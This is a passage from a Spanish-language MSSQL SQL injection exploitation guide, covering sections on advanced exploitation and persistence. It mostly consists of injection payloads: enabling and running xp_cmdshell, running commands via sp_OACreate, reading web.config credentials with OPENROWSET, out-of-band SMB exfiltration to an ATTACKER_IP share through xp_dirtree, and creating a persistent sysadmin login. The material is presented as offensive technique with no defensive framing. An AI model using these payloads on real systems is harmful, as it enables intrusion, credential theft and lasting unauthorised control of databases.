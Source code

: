 ### **3. Explotación Avanzada en MSSQL**

#### **a) Ejecución de Comandos con `xp_cmdshell`**

>Si está habilitada:
```
' EXEC xp_cmdshell 'whoami'; --
```
>Si no está habilitada, la activamos si tenemos permisos:
```
' EXEC sp_configure 'show advanced options', 1; --
' RECONFIGURE; -- 
' EXEC sp_configure 'xp_cmdshell', 1; --
' RECONFIGURE; --  
```
Después de esto, podemos usar `xp_cmdshell` para descargar y ejecutar archivos maliciosos.

#### **b) Uso de `sp_OACreate` (OLE Automation)**

>Si `xp_cmdshell` está deshabilitada y no podemos activarla, intentamos **OLE Automation Procedures**:

```
' EXEC sp_configure 'Ole Automation Procedures', 1; --
' RECONFIGURE; -- 
' DECLARE @o INT; --
' EXEC sp_OACreate 'WScript.Shell', @o OUTPUT; --
' EXEC sp_OAMethod @o, 'Run', NULL, 'cmd.exe /c whoami > C:\inetpub\wwwroot\whoami.txt'; --
```
Esto ejecuta `whoami` y guarda la salida en `whoami.txt`.

#### **c) Uso de `OPENROWSET` para Leer Archivos**

>Si `xp_cmdshell` está bloqueada, podemos leer archivos con:

```
'SELECT * FROM OPENROWSET(BULK 'C:\inetpub\wwwroot\web.config', SINGLE_CLOB) AS FileContents;--  
```
Esto es útil para extraer credenciales almacenadas en `web.config`.

#### **d) Abuso de Extended Stored Procedures (`xp_dirtree`)**

Podemos hacer un **out-of-band (OOB) exfiltration** filtrando datos a un recurso SMB controlado:

```
'EXEC master..xp_dirtree '\\ATTACKER_IP\share'; --
```
Si podemos capturar la solicitud SMB, significa que el servidor intentó conectarse con nosotros.

---
### **4. Persistencia y Escalada**

Si tenemos acceso administrativo, podemos crear una cuenta persistente en la base de datos:

```
'CREATE LOGIN hacker WITH PASSWORD = 'P@ssw0rd'; --
'EXEC sp_addsrvrolemember 'hacker', 'sysadmin'; -- 
```
